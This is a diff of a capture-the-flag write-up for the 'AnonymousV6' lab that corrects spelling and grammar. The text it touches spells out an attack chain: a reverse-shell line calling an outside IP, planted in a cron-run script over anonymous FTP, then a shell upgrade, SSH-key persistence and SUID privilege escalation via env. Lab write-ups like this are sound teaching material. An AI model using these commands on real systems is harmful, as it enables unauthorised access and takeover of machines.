

Before and after one commit to 0xt1m/ctf, a Markdown page: AnonymousV6/report.md, 3 parts joined by grey strips. Drawn GitHub-style.

````diff
--- a/AnonymousV6/report.md
+++ b/AnonymousV6/report.md
@@ -18,11 +18,11 @@ I got these files.
 ![removed_files.log](./imgs/removed_files.log.png)<br>
 
 *removed_files.log* file is a part of *clean.sh* script. And if you look at the time when the *remove_files.log* was last changed you will notice that it was just changed, so we can suppose that *clean.sh* is scheduled to run (maybe every minute).<br>
-We have permissions to put files on the ftp server.
+We have permission to put files on the FTP server.
 
 I took the *clean.sh* file, changed it a little bit. Just added this line:<br>
 `sh -i >& /dev/tcp/10.2.116.12/2222 0>&1`<br>
-Connected to the ftp server, removed the original *clean.sh* and put my own. (Do not forget to set up nc listener.) The idea was that I would wait until the file would be executed and I would get a reverse-shell, but it did not work because the file does not have the permissions to be executed.<br>
+Connected to the ftp server, removed the original *clean.sh*, and put my own. (Do not forget to set up nc listener.) The idea was that I would wait until the file would be executed and I would get a reverse-shell, but it did not work because the file does not have the permissions to be executed.<br>
 Let's see what we got on the *smb server*
 ```
 smbmap -H anonv6.thm
@@ -37,18 +37,18 @@ smbmap -H anonv6.thm
 Let's check them out.<br>
 pics:<br>
 ![smb_pics](./imgs/smb_pics.png)<br>
-Nothing interesting. Doing some research I found what was my mistake. I connected to the ftp server removed *clean.sh* and then put there mine *clean.sh*, and these two actions changed permissions of the file and did not allow the system to run it. The right way to get the reverse-shell was just create a new *clean.sh* DO NOT remove current from the server and just put it there.
+Nothing interesting. Doing some research I found what was my mistake. I connected to the FTP server removed *clean.sh* and then put there mine *clean.sh*, and these two actions changed the permissions of the file and did not allow the system to run it. The right way to get the reverse-shell was just to create a new *clean.sh* DO NOT remove the current from the server and just put it there.
 ```
 ftp anonv6.thm
 anonymous:anonymous
 put clean.sh
 ```
-And now if you had a netcal listener listening, in my case on port 2222, after a couple of seconds I got we reverse-shell.
+And now if you had a `netcat` listener listening, in my case on port 2222, after a couple of seconds I got we reverse-shell.
 
 ## Privilege Escalation
-Fistly, I upgraded my reverse-shell with:<br>
+First, I upgraded my reverse shell with:<br>
 `python3 -c "import pty; pty.spawn('/bin/bash')"`<br>
-Then I created new ssh key-pair and connected via ssh in order that I have a pretty shell :smile:<br>
+Then I created a new SSH key-pair and connected via ssh so that have a pretty shell :smile:<br>
 ```
 ssh-keygen # no password
 cat ./.ssh/id_rsa.pub > authorized_keys
@@ -64,7 +64,7 @@ find / -perm -u=s -type f 2>/dev/null
 ```
 I gave out many responses but the interesting one for me was:<br>
 `/usr/bin/env`<br>
-I went to https://gtfobins.github.io/gtfobins, looked for `env` it found there SUID option for me, so I just executed the next command and got root.<br>
+I went to https://gtfobins.github.io/gtfobins, and looked for `env` it found the SUID option for me, so I just executed the next command and got root.<br>
 ```
 env /bin/sh -p
 ```
````
